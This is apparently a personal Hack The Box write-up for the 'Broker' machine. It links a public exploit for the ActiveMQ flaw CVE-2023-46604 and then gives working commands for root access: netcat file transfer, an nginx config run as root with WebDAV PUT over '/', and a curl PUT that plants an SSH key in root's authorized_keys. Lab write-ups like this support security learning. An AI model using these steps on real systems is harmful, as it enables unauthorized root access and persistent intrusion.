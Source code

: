 ## Broker box on htb

### Useful tools:
https://www.revshells.com/

### Obtaining user flag
https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Once exploit delivered, just `cat /home/activemq/user.txt`

### Obtaining root flag
Used nginx which user had access to to start nginx server and allow PUT with WebDav

To open up a stream from local to remote with reverse shell:
```shell
# on remote
nc -l -p 1234 > nginx.conf

# on host
nc -w 3 broker.htb 1234 < nginx.conf
```

Custom config:

```json
// nginx.conf
user root;
events {
    worker_connections 512;
}
http {
  server {
    dav_methods PUT DELETE MKCOL COPY MOVE;
    listen 9005;
    root /;
    autoindex on;
  }
}
```

Start nginx server with custom config:
`sudo nginx -c $(realpath nginx.conf)`


## With nginx webdav method to put files:
`curl -X PUT -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIErzi80YYVjGdDF0K4f29cvtK3MTLy87WUNOXr6W5U3Y parallels@kali-gnu-linux-2023.2" http://broker.htb:9000/root/.ssh/authorized_keys`

Used local ssh key to transfer to box with nginx server running int othe root authorized keys.
